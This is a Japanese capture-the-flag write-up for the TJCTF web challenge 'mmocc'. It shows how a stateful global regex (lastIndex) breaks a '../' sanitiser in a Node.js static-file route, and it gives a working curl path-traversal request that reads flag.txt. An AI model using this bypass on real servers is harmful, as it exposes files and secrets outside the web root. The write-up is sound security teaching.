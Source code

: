 # mmocc:web:XXXXpts
Massively multiplayer online cookie clicker!!  
[mmocc.tjc.tf](https://mmocc.tjc.tf/)  

Downloads  
[index.js](index.js)  

# Solution
サイトにアクセスすると他ユーザと共用のcookieクリッカーがある。  
[site.png](site/site.png)  
不審な点はないため、ソースを見ると以下のようであった。  
```js
~~~
const flag = fs.readFileSync(path.join(__dirname, 'flag.txt')).toString().trim();
~~~
const state = { clicks: 0 };
const routes = {
  clicks: async (_req, res) => {
    if (state.clicks === Infinity) res.json({ flag, ...state });
    else res.json(state);
  },
  click: async (_req, res) => {
    state.clicks++;
    res.end();
  },
  static: async (req, res) => {
    const regex = /\.\.\//g;
    const clean = (path) => {
      const replaced = path.replace('../', '');
      if (regex.test(path)) {
        return clean(replaced);
      }
      return replaced;
    };

    const location = [__dirname, 'static', clean(req.url)];
    if (location[2].endsWith('/')) location.push('index.html');
    const file = path.join(...location);

    let data;
    try {
      data = await fs.promises.readFile(file);
    } catch (e) {
      if (e.code === 'ENOENT') {
        res.statusCode = 404;
        res.end('not found');
        return;
      }
      throw e;
    }

    const type = types.get(path.extname(file)) ?? 'text/plain';
    res.setHeader('content-type', type);
    res.end(data);
  },
};
~~~
```
`/static`にて`clean`といったパストラバーサル対策を行っている。  
実はグローバルフラグを持った正規表現を用いてtestを呼び出すとlastIndexが加算される。  
そして次回のtestはそのlastIndexからのチェックが始まるため、以下のような挙動を引き起こす。  
```bash
$ node
~~~
> const regex = /\.\.\//g;
undefined
> regex.test("../../../../../satoki")
true
> regex.lastIndex
3
> regex.test("../../../../satoki")
true
> regex.lastIndex
6
> regex.test("../../../satoki")
true
> regex.lastIndex
9
> regex.test("../../satoki")
false
> regex.lastIndex
0
```
つまり文字列が変動する場合、正常に検査されない部分が存在することとなる。  
よって以下のように`clean`がバイパスできる。  
```bash
$ node
~~~
> const regex = /\.\.\//g;
undefined
> const clean = (path) => {
...     const replaced = path.replace('../', '');
...     if (regex.test(path)) {
.....         return clean(replaced);
.....     }
...     return replaced;
... };
undefined
> clean("../../../../../satoki")
'../satoki'
```
あとはflag.txtを読み取ればよい。  
以下のように行う。  
```bash
$ curl --path-as-is https://mmocc.tjc.tf/static/../../../../../../flag.txt
tjctf{h0w_h1gh_c4n_w3_g3t}
```
flagが得られた。  

## tjctf{h0w_h1gh_c4n_w3_g3t}